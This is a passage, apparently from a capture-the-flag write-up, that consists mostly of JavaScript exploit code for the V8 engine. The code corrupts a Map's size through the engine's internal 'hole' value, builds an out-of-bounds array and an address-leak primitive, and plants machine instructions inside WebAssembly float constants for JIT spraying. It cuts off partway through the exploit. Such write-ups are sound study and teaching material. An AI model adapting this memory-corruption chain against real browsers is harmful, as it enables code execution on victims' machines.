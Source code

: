 ```html
  return `0x${x.toString(16)}`;
}

function assert(x, msg) {
  if (!x) {
    throw msg;
  }
}

async function renderer() {
  let hole = [].hole();
  let map = new Map(); // len = 0, 2 buckets
  map.set(1, 1); // len = 1, 2 buckets
  map.set(hole, 1); // len = 2, 2 buckets
  map.delete(hole); // len = 2, 2 buckets
  map.delete(hole); // len = 0x00048b55, 2 buckets, 2 deleted, pointed to map has len = 0, no deleted, 2 buckets
  map.delete(1); // len = 0x00048b55, 2 buckets, 2 deleted, points to another map, points to something with len = -1
  let a = [];
  map.set(0x10, -1); // set the number of buckets to 0x10

  a.push(1.1);

  let b = [];
  map.set(b, 1337); // overwrite the length of the array

  let c = new Uint32Array(16);
  a[23] = i2d(0x1337133700000000n);


  let d = [a];
  let e = [d];

  let d_addr = c[46] - 1;

  a[24] = i2d(0n);
  a[25] = i2d(0n);

  let d_elements = c[d_addr / 4 + 2] - 1;

  function cageAddressOf(obj) {
      d[0] = obj;
      return c[d_elements / 4 + 2] - 1;
  }

  var global = new WebAssembly.Global({value:'i64', mutable:true}, 0n);
  var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,135,128,128,128,0,1,96,2,127,127,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,101,109,101,0,0,10,224,128,128,128,0,1,218,128,128,128,0,0,32,0,184,68,55,19,55,19,55,19,55,19,160,32,1,184,160,68,72,193,226,32,144,144,235,11,160,68,72,9,208,144,144,144,235,11,160,68,139,0,144,144,144,144,235,11,160,68,195,144,144,144,144,144,235,11,160,68,72,193,224,32,144,144,235,11,160,68,72,9,194,144,144,144,235,11,160,68,137,10,195,144,144,144,235,11,160,171,11]);
  var wasm_mod = new WebAssembly.Module(wasm_code);
  var wasm_instance = new WebAssembly.Instance(wasm_mod, {js: {global}});
  let f = wasm_instance.exports.meme;

  f(0x13371337, 0x13381338);
  const code_addr = BigInt(c[cageAddressOf(wasm_instance) / 4 + 24]) | (BigInt(c[cageAddressOf(wasm_instance) / 4 + 25]) << 32n);

  let i = 0;
```

[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.
[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.